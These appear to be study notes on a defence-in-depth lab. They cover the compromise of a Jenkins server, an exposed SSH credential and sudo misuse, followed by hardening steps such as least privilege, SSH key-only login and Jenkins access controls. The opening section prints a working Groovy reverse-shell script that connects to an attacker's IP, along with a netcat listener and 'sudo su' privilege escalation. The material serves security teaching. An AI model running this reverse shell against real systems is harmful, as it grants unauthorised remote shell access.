 ## The Problem
### Jenkins
Open-source automation server
### Reverse shell
Everyone has access to run arbitrary code
```Groovy revshell
String host="attacking machine IP here"; 
int port=6996; 
String cmd="/bin/bash"; 
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
On attacker:
`nc -lnvp 6996`
### Peculiar file
Has Tracy's ssh login details
### PrivEsc
Tracy can use sudo with ALL
`sudo su`

## The Solution
## [[PoLP|Principle of Least Privilege]]
#### [[12-Defense in Depth#PrivEsc|Remove Tracy from sudo group]]
That change alone made all the difference between achieving root and staying with the user tracy. Now the attacker is left with three immediate options:

- Further enumerate the server for a possible route to root within the user tracy,
- Find a way to move laterally within the system to a user with a possible route to root access, or
- Find a different target.

## Hardening of SSH
#### [[12-Defense in Depth#Peculiar file|Remove password-based SSH]]
1. Modify /etc/ssh/sshd_config
	- `PasswordAuthentication no`
	- `#Include ...`
2. `sudo systemctl restart ssh`

## Stronger password policies
#### Problems in ssh password:
1. The password is weak and may be susceptible to a brute force attack, and
2. The user employed bad password practices, putting [[12-Defense in Depth#Peculiar file|plaintext credentials on a script]] and leaving it lying around for anyone with server access to see

## Promoting Zero Trust
#### [[12-Defense in Depth#Reverse shell|The problem]]
Everyone in environment can access the workings of the platform through Jenkins

Solution:
``` bash
egrep 'denyAnonymousReadAccess|disableSignup|enableCaptcha' -C1 /var/lib/jenkins/config.xml 
<authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
	<denyAnonymousReadAccess>true</denyAnonymousReadAccess> 
</authorizationStrategy> 
<securityRealm class="hudson.security.HudsonPrivateSecurityRealm"> 
	<disableSignup>true</disableSignup> 
	<enableCaptcha>false</enableCaptcha> 
</securityRealm>
```

